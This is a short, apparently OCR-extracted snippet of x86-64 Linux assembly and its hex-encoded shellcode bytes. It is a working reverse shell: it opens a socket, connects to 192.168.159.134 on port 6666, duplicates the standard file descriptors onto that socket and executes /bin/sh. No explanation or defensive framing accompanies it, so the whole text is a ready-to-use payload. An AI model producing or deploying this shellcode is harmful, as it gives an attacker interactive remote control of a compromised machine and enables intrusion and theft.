 ```
 	syscall  			 ; call socket(SOCK_STREAM, AF_NET, 0);
 
 	mov    r8,rax
 	xor    rsi,rsi
 	xor    r10,r10
	push   r10
 	mov    BYTE  [rsp],0x2
	mov    WORD  [rsp+0x2],0x0a1a			; post = 6666
	mov    DWORD  [rsp+0x4],0x869fa8c0		; ip = 192.168.159.134
	mov    rsi,rsp
 	push   0x10
 	pop    rdx
 	push   r8
	pop    rdi
 	push   0x2a
 	pop    rax
  	syscall 			; call connect(rdi, rsi, rdx)
  
xor    rsi,rsi
 push   0x3
  pop    rsi
doop:
 	dec    rsi
	push   0x21
 	pop    rax
	syscall

jne   doop
 
	xor    rdi,rdi
 	push   rdi
	push   rdi
	pop    rsi
 	pop    rdx
	mov rdi,0x68732f6e69622f2f
	shr    rdi,0x8
	push   rdi
	push   rsp
	pop    rdi
	push   0x3b
    pop    rax
    syscall 
```

```
\x48\x31\xc0\x48\x31\xff\x48\x31\xf6\x48\x31\xd2\x4d\x31\xc0\x6a\x02\x5f\x6a\x01\x5e\x6a\x06\x5a\x6a\x29\x58\x0f\x05\x49\x89\xc0\x48\x31\xf6\x4d\x31\xd2\x41\x52\xc6\x04\x24\x02\x66\xc7\x44\x24\x02\x1a\x0a\xc7\x44\x24\x04\xc0\xa8\x9f\x86\x48\x89\xe6\x6a\x10\x5a\x41\x50\x5f\x6a\x2a\x58\x0f\x05\x48\x31\xf6\x6a\x03\x5e\x48\xff\xce\x6a\x21\x58\x0f\x05\x75\xf6\x48\x31\xff\x57\x57\x5e\x5a\x48\xbf\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x48\xc1\xef\x08\x57\x54\x5f\x6a\x3b\x58\x0f\x05
```
